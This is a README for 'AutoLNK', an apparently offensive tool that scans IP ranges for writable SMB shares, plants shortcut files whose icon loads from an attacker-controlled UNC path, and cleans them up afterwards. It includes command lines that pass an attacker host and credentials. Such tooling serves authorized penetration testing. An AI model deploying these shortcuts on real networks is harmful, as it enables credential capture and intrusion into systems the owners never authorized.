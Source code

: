 # AutoLNK LNK Payload Generator and SMB Share Manager

This Python script is designed to generate `.lnk` (shortcut) files, scan SMB shares for write access, upload the generated `.lnk` files to discovered shares, and clean them up later. It is capable of running on both Windows and non-Windows systems.

## Features

- **Generate LNK (Shortcut) Files**: Creates `.lnk` files on both Windows and non-Windows platforms.
- **Scan SMB Shares**: Scans an IP range for writable SMB shares using the `netexec` tool.
- **Upload LNK Files**: Uploads the generated `.lnk` file to discovered writable SMB shares.
- **Cleanup LNK Files**: Deletes previously uploaded `.lnk` files from the SMB shares.
- **Cross-Platform**: Works on both Windows and Linux systems.

## Requirements

### Windows:
- `pywin32` library (for LNK file creation on Windows)

### Linux:
- `pylnk3` library (for LNK file creation on Linux)
- `smbclient` tool (for SMB share interaction)

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/Tajnost/AutoLNK.git
   cd AutoLNK
   ```

2. Install required Python libraries:

   On Windows:
   ```bash
   pip install pywin32
   ```

   On Linux:
   ```bash
   pip install pylnk3
   ```

3. Ensure that `netexec` and `smbclient` tools are available on your system.

## Usage

The script provides the ability to either generate `.lnk` files, scan SMB shares, upload `.lnk` files, or clean up previously uploaded `.lnk` files. Below is a detailed breakdown of its usage:

### Command-line Arguments

| Argument          | Description                                                                                      | Required |
|-------------------|--------------------------------------------------------------------------------------------------|----------|
| `--target-range`   | The target IP range for SMB scanning (e.g., `192.168.131.0/24`)                                   | Yes      |
| `--username`       | Username for SMB authentication                                                                  | Yes      |
| `--password`       | Password for SMB authentication                                                                  | Yes      |
| `--domain`         | Domain for SMB authentication (use only if domain authentication is required)                    | No       |
| `--local-auth`     | Use this flag for local SMB authentication (disables domain authentication)                      | No       |
| `--host`           | The attacker's IP or hostname to be embedded in the LNK file's icon location                     | Yes      |
| `--output`         | The name of the `.lnk` file to be generated                                                      | Yes      |
| `--execute`        | The command that will be executed when the shortcut is clicked (defaults to `C:\Windows\explorer.exe .`) | No       |
| `--targets-file`   | Path to save the discovered SMB shares (defaults to `/home/kali/targets.txt`)                    | No       |
| `--cleanup`        | Use this flag to remove the uploaded `.lnk` files from the SMB shares                            | No       |

### Example Usage

1. **Generate and Upload LNK Files to SMB Shares**:

   This command generates a `.lnk` file and scans for writable SMB shares within a given IP range. It then uploads the `.lnk` file to the discovered shares.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --host 192.168.131.10 --output /home/kali/myfile.lnk
   ```

2. **Clean Up Uploaded LNK Files**:

   This command removes the previously uploaded `.lnk` files from the writable SMB shares discovered earlier.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --cleanup
   ```

## How It Works

1. **LNK File Generation**:
   The script generates a `.lnk` file that points to a specified command (e.g., `cmd.exe`) and assigns a custom icon from a UNC path (`\\attacker_ip\share\file.ico`).

2. **SMB Share Scanning**:
   It uses the `netexec` tool to scan a given IP range for SMB shares with write access.

3. **Uploading LNK Files**:
   The script uploads the `.lnk` file to all writable SMB shares using the `smbclient` tool.

4. **Cleaning Up LNK Files**:
   It removes the uploaded `.lnk` files from the SMB shares using `smbclient`.

## Notes

- Make sure you have appropriate permissions to scan and upload files to the SMB shares.
- The script assumes that the required tools like `netexec` and `smbclient` are installed and available in the system's PATH.
- Wrap passwords in single quotes when using special characters (e.g., `Password123!`) to avoid breaking the command.

![image](https://github.com/user-attachments/assets/41bba42a-8392-4a2d-a476-00ff2193e860)


![image](https://github.com/user-attachments/assets/c1923b63-4d2f-44ba-bd7b-381e0f4370df)



If --cleanup argument is used:

![image](https://github.com/user-attachments/assets/c59d52cc-c812-4548-b7c8-da29d5a499e3)

